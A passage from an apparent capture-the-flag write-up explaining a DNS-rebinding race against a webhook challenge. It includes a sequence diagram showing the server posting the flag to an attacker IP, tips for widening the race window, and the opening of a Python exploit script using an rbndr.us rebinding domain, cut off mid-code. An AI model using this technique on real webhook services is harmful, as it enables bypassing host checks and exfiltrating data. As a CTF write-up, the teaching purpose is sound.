     note over DNS: 5) DNS A Record is 83.130.170.16, TTL=1 (attacker IP) <br> DNS “rebinding” event, xxxx.rbndr.us is resolving to Attacker's IP
    DNS-->>ChallengeServer: DNS A response (TTL=1) for xxxx.rbndr.us: 83.130.170.16
    
    note over ChallengeServer: 5) Opens HTTP connection to 83.130.170.16 
    note over DNS: DNS A Record is 93.184.215.14, TTL=1 (example.org IP)
    note over DNS: ...
    
    ChallengeServer->>Attacker: POST to 83.130.170.16 <br/> {"flag":"irisctf{...}"} 
    Attacker-->>Attacker: Captures the flag (win)
{{< /mermaid >}}
</div>

A trick I used to increase my chances of hitting the exact window between **Step 1** and **Step 4** was to send a large payload in the body to be processed, so that **L34** would have a slightly longer execution time to give us the possibility of hitting the cache revalidation switch in a larger window.

{{< alert >}}
**NOTE**  
An interesting rabbit hole would be to understand how `String.replace()` is performed internally by Java/Kotlin, since there could be the possibility of using some classic ReDoS tricks to increase the execution time of `h.template.replace("_DATA_", body)` even more.
{{< /alert >}}

## Exploitation (cry and pray)
Having gathered all the elements to exploit, I proceeded to write the following python script:

**exploit.py**
```python
#!/usr/bin/python3
import requests
import time
import threading
from concurrent.futures import ThreadPoolExecutor, as_completed

RBNDR = "http://5db8d70e.5e82aa10.rbndr.us"
CHALL_URL = "https://webwebhookhook-43435a7246999280.i.chal.irisc.tf"
BATCH_SIZE = 20
DELAY_BETWEEN_BATCHES = 0.1

req_id = 0
req_id_lock = threading.Lock()

def send_request(session, url, payload):
    global req_id
    try:
        response = session.post(url, headers={"Content-Type":"application/x-www-form-urlencoded"}, data=payload, timeout=10)
        with req_id_lock:
            req_id += 1
            current_id = req_id
        print(f"{current_id} {response.text} {response.status_code}")
    except Exception as e:
        with req_id_lock:
            req_id += 1
            current_id = req_id
        print(f"{current_id} Error: {e}")

def main():
    url = f"{CHALL_URL}/webhook?hook={RBNDR}/admin" # we need to also match url path 
    payload = "A"*1000

    with requests.Session() as session:
        with ThreadPoolExecutor(max_workers=BATCH_SIZE) as executor:
```
